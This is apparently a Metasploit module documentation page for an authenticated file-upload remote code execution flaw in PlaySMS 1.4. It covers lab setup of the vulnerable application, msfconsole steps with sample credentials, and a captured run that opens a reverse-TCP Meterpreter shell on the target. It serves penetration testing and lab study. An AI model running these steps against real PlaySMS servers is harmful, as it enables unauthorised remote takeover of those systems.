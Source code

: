 ## Description
this Module exploits a Authenticated File Upload and In filename parameter have Remote Code Excution Vulnerability in PlaySMS Version 1.4. This issue is caused by improper File name handling in sendfromfile.php file. Authenticated Users can upload a file and rename file name with a malicious payload. Additional information and vulnerabilities can be viewed on Exploit-DB [42044]( https://www.exploit-db.com/exploits/42003/))
**NOTE :** This Module is already PULLED but for some reason closed by author Check [#9840](https://github.com/rapid7/metasploit-framework/pull/9840)

## Vulnerable Application 
Available at [Exploit-DB](https://www.exploit-db.com/apps/577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz)

## Vulnerable Application Installation Setup.
Download Application : ```wget https://www.exploit-db.com/apps/577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz```

Extract : ```tar -xvf 577b6363d3e8baf4696744f911372ea6-playsms-1.4.tar.gz```

Move In WebDirectory : ```mv playsms-1.4/web/* /var/www/html/```

make config file: ```cp /var/www/html/config-dist.php /var/www/html/config.php```

Change Owner : ```chown -R www-data:www-data /var/www/html/```

Set DB creds in config.php File. And dump playsms-1.4/db/playsms.sql in your playsms database.

Now Visit : http://localhost/

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/http/playsms_filename_exec`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `set targeturi SecreTSMSgatwayLogin`
  7. Do: `set username touhid`
  8. Do: `set password diana`
  9. Do: `check`
```
[*] 10.22.1.10:80 The target appears to be vulnerable.
```
  10. Do: `set lport <port>`
  11. Do: `set lhost <ip>`
  12. Do: `exploit`
  13. You should get a shell.

## Options

  **TARGETURI**

  TARGETURI by default is `/`,  however it can be changed.

## Scenarios
### Playsms on Ubuntu Linux
```
msf exploit(multi/http/playsms_filename_exec) > run                                                                                    
                                                                                                                                       
[*] Started reverse TCP handler on 10.22.1.3:4444                                                                                      
[+] X-CSRF-Token for login : 13bce9776cfc270a3779e8b557330cc2                                                                          
[*] Trying to Login ......                                                                                                             
[+] Authentication successful : [ touhid:diana ]                                                                                       
[+] X-CSRF-Token for upload : 2780d48dc11a482a58d8a95ad873c6cc                                                                         
[*] Trying to upload file with malicious Filename Field....                                                                            
[*] Sending stage (37775 bytes) to 10.22.1.15                                                                                          
[*] Sleeping before handling stage...                                                                                                  
[*] Meterpreter session 1 opened (10.22.1.3:4444 -> 10.22.1.15:38814) at 2018-04-08 13:45:34 +0530                                     
                                                                                                                                       
meterpreter >
```
